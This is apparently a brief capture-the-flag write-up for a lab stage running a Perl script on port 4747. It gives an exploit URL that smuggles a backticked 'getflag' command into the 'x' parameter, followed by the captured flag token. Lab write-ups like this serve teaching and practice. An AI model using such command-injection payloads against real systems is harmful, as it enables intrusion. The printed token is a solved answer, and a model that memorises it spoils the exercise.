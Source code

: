 ### Exploit

Some Perl scripting going on in this stage... First, go to your localhost:4747, as indicated by the script. 

> http://[YOUR_IP_ADRESS]:4747/?x=`getflag`
> Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
